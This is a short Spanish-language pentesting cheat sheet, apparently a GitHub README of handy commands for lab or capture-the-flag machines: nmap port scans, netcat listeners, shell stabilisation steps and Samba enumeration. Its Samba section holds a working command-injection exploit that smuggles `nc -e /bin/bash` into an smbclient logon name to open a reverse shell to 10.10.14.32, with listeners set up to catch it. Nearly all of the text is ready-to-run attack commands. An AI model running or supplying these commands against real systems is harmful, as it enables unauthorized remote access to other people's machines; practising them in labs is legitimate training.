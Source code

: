 # Comandos

Comandos interesantes
======

## Exploración

Todos los puertos, rapido y silencioso
<pre>
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.168.193 -oG allPorts
</pre>
 
Puertos especificos
<pre>
nmap -sCV -p135,139,445,1688,3389,49152,49153,49154,49155,49156,49157 192.168.168.193 -oN targeted
</pre>

## Netcap

Ponernos a la escucha:

<pre>
nc -nlvp 443
</pre>

Si es windows:

<pre>
rlwrap nc -nlvp 444
</pre>

Si es Linux podemos tunear la terminal recibida:

<pre>
-- CTLR + Z para poner en segundo plano la terminal
stty raw -echo; fg
reset
export TERM=xterm
export shell=bash
stty rows 51 columns 189

</pre>

## Samba
Listar recursos:
<pre>
smbclient -L 10.10.10.3 -N --option="client min protocol=NT1"
</pre>

Conectarnos a un recurso y ejecutar comando:
<pre>
smbclient //10.10.10.3/tmp -N --option="client min protocol=NT1" -c 'logon "/=`nohup nc -e /bin/bash 10.10.14.32 443`"'
</pre>

lo subimos por el ftp anonimo y a la escucha con:

<pre>
nc -nlvp 443
</pre>
